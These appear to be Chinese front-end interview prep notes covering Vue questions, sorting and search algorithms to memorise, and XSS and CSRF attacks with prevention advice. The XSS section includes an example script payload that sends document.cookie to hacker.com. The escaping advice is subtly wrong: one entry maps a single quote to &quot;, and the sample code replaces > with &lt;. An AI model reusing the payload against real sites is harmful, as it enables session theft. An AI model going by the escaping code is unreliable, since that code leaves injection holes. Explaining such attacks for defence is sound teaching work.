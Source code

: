 Vue 押题

1.  （必考）Vue 有哪些生命周期钩子函数？

    - 看文档

2.  （必考）Vue 如何实现组件通信？
    1.  父子通信（使用 Prop 传递数据、使用 v-on 绑定自定义事件）
    2.  爷孙通信（通过两对父子通信，爷爸之间父子通信，爸儿之间父子通信）
    3.  [兄弟通信（new Vue() 作为 eventBus）](https://cn.vuejs.org/v2/guide/components.html#%E9%9D%9E%E7%88%B6%E5%AD%90%E7%BB%84%E4%BB%B6%E7%9A%84%E9%80%9A%E4%BF%A1)
3.  Vuex 的作用是什么？
    - 看文档、博客 https://vuex.vuejs.org/zh-cn/intro.html
4.  VueRouter 路由是什么？
    - 看文档、博客
5.  Vue 的双向绑定是如何实现的？有什么缺点？
    - 看文档，[深入响应式原理](https://cn.vuejs.org/v2/guide/reactivity.html)
6.  Computed 计算属性的用法？跟 Methods 的区别。
    https://zhuanlan.zhihu.com/p/33778594

算法押题

1.  排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
2.  二分查找法
3.  翻转二叉树

把上面三个背一下，算法题必过。

安全押题

1.  什么是 XSS 攻击？如何预防？
    - 举例
      ```
      div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
      // 恶意就被执行了，这就是 XSS
      ```
    - 预防
      1.  不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
      2.  如果你一样要用 innerHTML，字符过滤
          - 把 < 替换成 `&lt;`
          - 把 > 替换成 `&gt;`
          - 把 & 替换成 `&amp;`
          - 把 ' 替换成 `&#39;`
          - 把 ' 替换成 `&quot;`
          - 代码 div.innerHTML = userComment.replace(/>/g, '`&lt;`').replace...
      3.  使用 CSP Content Security Policy
2.  什么是 CSRF 攻击？如何预防？
    - 过程
      1.  用户在 qq.com 登录
      2.  用户切换到 hacker.com（恶意网站）
      3.  hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
      4.  用户在不知不觉中添加 hacker 为好友。
      5.  用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
    - 避免
      1.  检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
      2.  csrf_token 来解决
